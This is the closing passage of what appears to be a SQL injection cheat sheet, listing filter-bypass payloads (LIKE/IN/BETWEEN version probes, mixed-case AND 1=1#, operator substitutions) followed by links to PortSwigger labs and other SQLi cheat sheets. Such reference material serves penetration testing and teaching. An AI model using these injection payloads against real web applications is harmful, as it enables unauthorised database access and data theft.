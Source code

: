 Bypass using LIKE/NOT IN/IN/BETWEEN

```sql
?id=1 and substring(version(),1,1)like(5)
?id=1 and substring(version(),1,1)not in(4,3)
?id=1 and substring(version(),1,1)in(4,3)
?id=1 and substring(version(),1,1) between 3 and 4
```

### Case modification

- Bypass using uppercase/lowercase (see keyword AND)
  ```sql
  ?id=1 AND 1=1#
  ?id=1 AnD 1=1#
  ?id=1 aNd 1=1#
  ```
- Bypass using keywords case insensitive / Bypass using an equivalent operator
  ```sql
  AND   -> &&
  OR    -> ||
  =     -> LIKE,REGEXP, BETWEEN, not < and not >
  > X   -> not between 0 and X
  WHERE -> HAVING
  ```

## Labs

- [SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)
- [SQL injection vulnerability allowing login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)
- [SQL injection with filter bypass via XML encoding](https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding)
- [SQL Labs](https://portswigger.net/web-security/all-labs#sql-injection)

## References

- Detect SQLi
  - [Manual SQL Injection Discovery Tips](https://gerbenjavado.com/manual-sql-injection-discovery-tips/)
  - [NetSPI SQL Injection Wiki](https://sqlwiki.netspi.com/)
- MySQL:
  - [PentestMonkey's mySQL injection cheat sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)
  - [Reiners mySQL injection Filter Evasion Cheatsheet](https://websec.wordpress.com/2010/12/04/sqli-filter-evasion-cheat-sheet-mysql/)
  - [Alternative for Information_Schema.Tables in MySQL](https://osandamalith.com/2017/02/03/alternative-for-information_schema-tables-in-mysql/)
  - [The SQL Injection Knowledge base](https://websec.ca/kb/sql_injection)
- MSSQL:
  - [EvilSQL's Error/Union/Blind MSSQL Cheatsheet](http://evilsql.com/main/page2.php)
  - [PentestMonkey's MSSQL SQLi injection Cheat Sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
- ORACLE:
  - [PentestMonkey's Oracle SQLi Cheatsheet](http://pentestmonkey.net/cheat-sheet/sql-injection/oracle-sql-injection-cheat-sheet)
- POSTGRESQL:
  - [PentestMonkey's Postgres SQLi Cheatsheet](http://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet)
- Others
  - [SQLi Cheatsheet - NetSparker](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)
  - [Access SQLi Cheatsheet](http://nibblesec.org/files/MSAccessSQLi/MSAccessSQLi.html)